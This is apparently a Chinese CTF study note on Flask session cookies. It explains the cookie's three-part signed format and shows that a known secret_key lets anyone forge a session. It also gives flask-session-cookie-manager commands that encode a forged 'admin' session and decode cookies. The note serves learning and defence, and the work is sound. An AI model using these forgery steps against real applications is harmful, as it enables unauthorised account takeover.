 **一般session会被保存到服务端中（服务端cookie，但是flask的session是存储在客户端的cookie里的**

![img](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/6277797-c018a4c5b5be1541.png)

> flask对session的处理位于flask/sessions.py中（本题没找到），默认情况下flask的session以cookie的形式保存于客户端，利用签名机制来防止数据被篡改。

session一般格式：

![img](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/t01ef54ad8392df284d.png)

```
.eJwljrFuwzAMBf9FcwZSpkQyP2NQoh5aBGgBO5mC_HsNdLy75d5lx7HOr3J_Hq91K_t3lnuxGamDI6kmLPpa1TE0UKteyYSpJyaaVJ8hRGZDk7ZtLlEbpALjxjOc1SaZWzLSx-aB3p0djSta984kjXqMrQqrE3WhBMo18jrX8X_D9eJ5Htifv4_1cxltCgQ3V0zvIsGBjDAlGQsqNJEi08vnD15kP8Q.XxKIMg.iW96TDgIamKLQ0x9h5LoPsUCIvw
```

通过.隔开的**3段内容**，第一段其实就是base64 encode后的内容，但去掉了填充用的等号，若decode失败，自己需要补上1-3个等号补全。中间内容为时间戳，在flask中时间戳若超过31天则视为无效。最后一段则是安全签名，将sessiondata,时间戳，和flask的secretkey通过sha1运算的结果。

```php
json->zlib->base64后的源字符串 . 时间戳 . hmac签名信息
```

- 服务端每次收到cookie后，会将cookie中前两段取出和secretkey做sha1运算，若结果与cookie第三段不一致则视为无效。

- 漏洞成因
   漏洞的根源是**secretkey被获取**，应当使用完全随机的secretkey，或在clone某项目后修改为随机的key。
   **需要特别注意的是python2与python3下产生的timestamp是不一样的！**
- ==生成 session cookie 需要 secret_key 解码 session cookie 可以不需要 secret_key==

- **利用工具：**

​			https://github.com/noraj/flask-session-cookie-manager

​			**由上文所述的session格式可知，要修改并伪造一个session的必要条件就是知道加密所采用的**`secret_key`**，一旦获取到**`secret_key`**, 我们就可以轻松的构造签名，从而实现客户端的session的伪造。**

- **安装问题**：[参考博客](https://chenlvtang.top/2020/07/28/Flask%E3%81%AE%E5%88%9D%E8%AF%86/)，安装完后出现helloworld后退出虚拟环境，直接运行脚本【注意，虚拟环境里设置的脚本是python.exe所以用法是python flask_xxx而不是python3 flask_xxx】

cmd直接执行某文件夹下的exe：

```
"D:\Work\vscode\Microsoft VS Code\_\Code.exe"    //路径有空格情况下要加书昂引号
```

用法：

解密: `python flask_session_manager.py decode -s SECRET_KEY -c session`

加密: `python flask_session_manager.py encode -s SECRET_KEY -t 未加密session`

```python
加密：【必须要有secret_key】
$ python{2,3} flask_session_cookie_manager{2,3}.py encode -s '.{y]tR&sp&77RdO~u3@XAh#TalD@Oh~yOF_51H(QV};K|ghT^d' -t '{"number":"326410031505","username":"admin"}'
==》eyJudW1iZXIiOnsiIGIiOiJNekkyTkRFd01ETXhOVEExIn0sInVzZXJuYW1lIjp7IiBiIjoiWVdSdGFXND0ifX0.DE2iRA.ig5KSlnmsDH4uhDpmsFRPupB5Vw

解密：【可有可无key】
有key:
$ python{2,3} flask_session_cookie_manager{2,3}.py decode -c 'eyJudW1iZXIiOnsiIGIiOiJNekkyTkRFd01ETXhOVEExIn0sInVzZXJuYW1lIjp7IiBiIjoiWVdSdGFXND0ifX0.DE2iRA.ig5KSlnmsDH4uhDpmsFRPupB5Vw' -s '.{y]tR&sp&77RdO~u3@XAh#TalD@Oh~yOF_51H(QV};K|ghT^d'
==》{u'username': 'admin', u'number': '326410031505'}

无kwy：
$ python{2,3} flask_session_cookie_manager{2,3}.py decode -c 'eyJudW1iZXIiOnsiIGIiOiJNekkyTkRFd01ETXhOVEExIn0sInVzZXJuYW1lIjp7IiBiIjoiWVdSdGFXND0ifX0.DE2iRA.ig5KSlnmsDH4uhDpmsFRPupB5Vw'
==》{"number":{" b":"MzI2NDEwMDMxNTA1"},"username":{" b":"YWRtaW4="}}
```
